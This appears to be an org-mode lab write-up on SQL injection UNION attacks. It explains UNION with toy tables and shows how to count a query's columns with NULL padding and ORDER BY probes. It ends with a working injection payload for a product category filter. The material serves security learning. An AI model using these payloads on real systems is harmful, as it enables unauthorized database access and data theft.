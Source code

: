 #+title: SQL injection UNION attack, determining the number of columns returned by the query

* TABLE OF CONTENTS :toc:
- [[#about][About]]
  - [[#end-goal][End Goal]]
- [[#union-in-sql][UNION in sql]]
  - [[#sample-query][Sample Query]]
  - [[#output][output]]
  - [[#query-with-union][Query with UNION]]
  - [[#output-1][output]]
  - [[#some-rule-for-union-to-work][Some rule for UNION to work]]
- [[#figure-out][Figure out]]
  - [[#way-1][way 1]]
  - [[#way-2][way 2]]
- [[#solution][Solution]]

* About
sql injection into product ~category~ filter

** End Goal
use sql injection ~UNION~ attack to determine the number of columns returned by the query

* UNION in sql
~UNION~ is used to combine the result-set of two or more ~SELECT~ statements

+ users

| username | password  |
|----------+-----------|
| admin    | admin     |
| smith    | pass12345 |
|----------+-----------|

+ product

| itemName | price |
|----------+-------|
| pen      |    10 |
| paper    |    20 |
|----------+-------|

** Sample Query
#+begin_src sql
SELECT username, password FROM users
#+end_src

** output

| admin | admin     |
| smith | pass12345 |

** Query with UNION
#+begin_src sql
SELECT username, password FROM users UNION SELECT itemName,price FROM product
#+end_src

** output

| admin |     admin |
| smith | pass12345 |
| pen   |        10 |
| paper |        20 |

** Some rule for UNION to work

+ Every ~SELECT~ statement within ~UNION~ must have the same number of columns
+ Same data types in columns
+ Same order in the columns in every ~SELECT~ statement

* Figure out
We have to figure out the correct number of columns first

** way 1
~dummy query~
#+begin_src sql
SELECT something FROM users UNION SELECT NULL
#+end_src
~error => incorrect number of columns~
users table has two columns

#+begin_src sql
SELECT something FROM users UNION SELECT NULL,NULL
#+end_src
~200 response code => correct number columns~

** way 2
#+begin_src sql
SELECT something FROM users order by 2
#+end_src

* Solution
#+begin_src sql
'UNION SELECT NULL,NULL,NULL --
#+end_src

